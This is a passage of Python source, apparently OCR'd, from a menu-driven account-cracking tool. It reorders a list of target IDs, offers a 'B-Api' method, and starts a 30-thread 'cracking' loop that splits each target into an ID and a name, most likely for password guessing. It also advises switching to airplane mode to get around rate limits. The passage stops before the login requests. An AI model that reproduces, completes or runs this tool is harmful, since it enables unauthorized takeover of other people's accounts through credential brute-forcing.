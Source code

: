 			id2.append(bacot)

	elif mubashar in ['2','02']:

		for bacot in id:

			id2.insert(0,bacot)

	

	else:

		print("""%s \33[1;33mRoung Input"""%(h))

		exit()

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	print("""%s \33[1;33m[01] B-Api (fast)"""%(h))

	print("""%s \x1b[92;1m<===================================>\x1b[92;1m """%(h))

	baloch = input(x+'\33[1;96m•Input Number> : ')

	if baloch in ['1','01']:

		method.append('api')

	else:

		method.append('api')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	fast = input(x+'\33[1;96m Want To Start ? (y/t) : ')

	if fast in ['y','Y']:

		passwrd()

	elif fast in ['t','T']:

		os.system("xdg-open https://youtube.com/c/Sayek MalikTechnologychannel")

		exit()

def passwrd():

	clear()

	banner()

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	print(x+' '+h+' '+x+' Total ids : '+str(len(id)))

	print(x+'   [  IF NO RESULT USE AIRPLANE MODE  ]\n   Cracking Starting...')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
